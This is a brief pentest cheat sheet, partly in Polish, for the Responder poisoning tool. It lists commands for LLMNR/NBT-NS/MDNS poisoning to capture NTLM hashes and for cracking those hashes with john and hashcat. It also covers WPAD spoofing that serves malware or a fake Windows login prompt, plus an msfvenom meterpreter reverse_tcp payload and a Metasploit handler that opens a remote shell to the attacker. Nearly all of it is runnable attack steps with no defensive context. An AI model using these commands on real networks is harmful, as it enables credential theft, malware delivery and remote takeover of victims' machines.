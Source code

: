 ## RESPONDER
### Intro
Responder an LLMNR, NBT-NS and MDNS poisoner
### Preq
### Config
/usr/share/responder/Responder.conf
### Uses
Zatruwanie i zbieranie hashy NTLM  
``responder -I eth0``  
*(john hash1.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=netntlmv2)*  
*(hashcat -m 5600 -a 0 hash1.txt /usr/share/wordlists/rockyou.txt --force --potfile-disable)*
#### Podkladanie WPAD - fake www + malware
``responder -I eth0 -wFfbv``  
*Serve-Html = on*  
*Serve-Exe = on*  
##### Malware example  
``msfvenom -p windows/x64/meterpreter/reverse_tcp lhost= $srcIP lport=$lPort -f exe > payload.exe``  
`` msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST $srcIP; set LPORT $lPort; run; exit -y;"``  
or
``use exploit/multi/handler``  
``set lhost _IP_``  
``set lport 4444``  
``set payload windows/x64/meterpreter/reverse_tcp``  
#### Podkladanie WPAD - fakowe windowsowe okno logowania do strony w przegladarce
``responder -I eth0 -r On -w On -wFb``  
*Serve-Html = off*  
*Serve-Exe = off*

